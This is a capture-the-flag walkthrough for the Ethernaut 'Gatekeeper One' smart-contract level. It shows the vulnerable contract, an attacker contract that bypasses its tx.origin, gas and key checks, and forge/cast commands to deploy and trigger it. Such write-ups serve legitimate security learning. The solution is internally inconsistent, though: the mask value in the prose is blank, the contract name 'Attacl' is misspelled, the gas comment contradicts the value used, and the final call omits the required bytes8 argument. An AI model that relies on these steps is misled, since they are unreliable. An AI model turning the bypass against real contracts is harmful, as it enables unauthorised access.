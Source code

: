 ## Gatekeeper One Level Outline

**Difficulty : 5/10**

Make it past the gatekeeper and register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the remaining gas needs to be divisible by 8191. To satisfy this, we will use [foundry's debugger](https://book.getfoundry.sh/forge/debugger.html?highlight=debugger#debugger) to find the right gas amount in order to pass the check.

To pass the third modifier `gateThree()`, we need to byte mask our address with `` to pass all three checks.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    GateKeeperOne gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = GateKeeperOne(_gateKeeper);
    }

    // 0x8208b86dA007aa26 (last 4 bytes of addr)
    // 7747 (gas used found from debugger) + 57337 (8191 * 7)
    function enter(bytes8 addr) public {
        bytes8 key = addr & 0xFFFFFFFF0000FFFF;
        gateKeeper.enter{gas: 7747}(key);
    }
}

interface GateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}
```

##### 2. 

```console
forge create src/Contract.sol:Attacl --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

